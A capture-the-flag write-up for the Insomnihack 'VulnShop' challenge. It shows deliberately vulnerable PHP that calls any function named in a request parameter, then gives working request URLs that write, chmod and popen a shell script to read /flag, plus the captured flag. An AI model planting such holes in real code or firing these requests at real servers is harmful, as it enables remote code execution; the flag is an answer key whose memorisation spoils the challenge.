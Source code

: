 ![description](images/description.png)

# Getting Started:

We're given a link to the VulnShop webpage, which contains links to the source code of the page, as well as php configuration details about the server.

![index page](images/index.png)

Here is the given source code:
```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
    error_reporting(0); session_start();  
    // Anti XSS filter 
    $_REQUEST = array_map("strip_tags", $_REQUEST); 
    // For later, when we will store infos about visitors. 
    chdir("tmp"); 
?> 
<!DOCTYPE html> 
<html> 
    <head> 
        <title>Work in progress...</title> 
        <meta charset="utf-8" /> 
        <meta http-equiv="content-type" content="text/html; charset=utf-8" /> 
        <style> 
            body { 
                background-color: #aaa; 
                color:#fff; 
            } 
             
            .page { 
                width: 50%; 
                margin: 0 auto; 
                margin-top: 75px; 
            } 
             
             
            .menu ul li { 
                display:inline-block; 
                vertical-align:top; 
                margin-right: 30px; 
                 
            } 
        </style> 
    </head> 
    <body> 
        <div class="page"> 
            <div class="menu"> 
                <ul> 
                    <li><a href="?page=default">Home</a></li> 
                    <li><a href="?page=introduction">Introduction</a></li> 
                    <li><a href="?page=privacy">Privacy</a></li> 
                    <li><a href="?page=contactus">Contact</a></li> 
                </ul> 
            </div> 
             
            <div class="content"> 
                <?php 
                        switch($_GET['page']) { 
                            case 'default': 
                            default: 
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>"; 
                                break; 
                            case 'introduction': 
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>"; 
                                break; 
                            case 'privacy': 
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>"; 
                                break; 
                            case 'contactus': 
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>"; 
                                $_SESSION['challenge'] = rand(100000,999999); 
                                break; 
                            case 'captcha': 
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge']; 
                                // Will make an image later 
                touch($_SESSION['challenge']); 
                                break; 
                            case 'captcha-verify': 
                // verification functions take a file for later, when we'll provide more way of verification 
                                function verifyFromString($file, $response) { 
                                    if($_SESSION['challenge'] === $response) return true; 
                                    else return false; 
                                } 
                                 
                                // Captcha from math op 
                                function verifyFromMath($file, $response) { 
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
                                    else return false; 
                                } 
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){ 
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
                                } 
                                break; 

                        } 
                ?> 
            </div> 
        </div> 
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p> 
        <p><a href="/phpinfo.php">Show our configurations</a></p> 
    </body> 
</html> 
```

From this code, we see that the server will generate a new random number and set our `challenge` variable every time we navigate to `/contactus`. This challenge is also stored as a file, and is used in later requests to `/captcha` and `/captcha-verify`.

In the handler for `/captcha-verify`, there's a line that allows us to call arbitrary functions, with the random number filename as the first parameter, and our input as the second parameter.
From this, it seems like a good way to solve the challenge would be to try to write some code to the file using this vulnerable function, use it again to execute the code that we wrote, and then use it again to read the output of our code.

# The Exploit:

Here is the script we will execute on the server (this appends the contents of `/flag` to the end of the currently running script):
```bash
#!/bin/sh
cat /flag >> "./${0##*/}";
```

We can only use functions that follow the format: `func(filename, input)`, where we can't control the filename (since it's randomly generated, and we can't edit it), but can control the input.

We also cannot use any of the functions listed in the `disable_functions` section of the server config (ie, most of the functions that would allow us to execute the code). Luckily, the server still allows us to use popen to execute files.

![disabled functions](images/disabled.png)

## Actual commands used:
We write the script to the file with file_put_contents(filename, our_script).

We then use chmod(filename, "511") to make it executable. PHP casts our string input to a decimal integer, and decimal 511 = octal 0777, which gives read/write/execute permissions to everyone on the server.

We run the new file with popen(filename, "r")

We read the output with highlight_file(filename, "")

Here are the actual requests made to exploit the server:

## Get a randomly generated challenge:
`http://vulnshop.teaser.insomnihack.ch/?page=contactus`

## Write the script to the file:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=%23!%2Fbin%2Fsh%0Acat%20%2Fflag%20%3E%3E%20%22.%2F%24%7B0%23%23*%2F%7D%22%3B`

## Turn it executable:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=chmod&answer=511`

## Run the script:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=popen&answer=r`

## Read the output (which is now appended to the end of the script we wrote):
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=highlight_file&answer=`

![output of the exploit](images/output.png)

And now we get the flag: `INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun}`

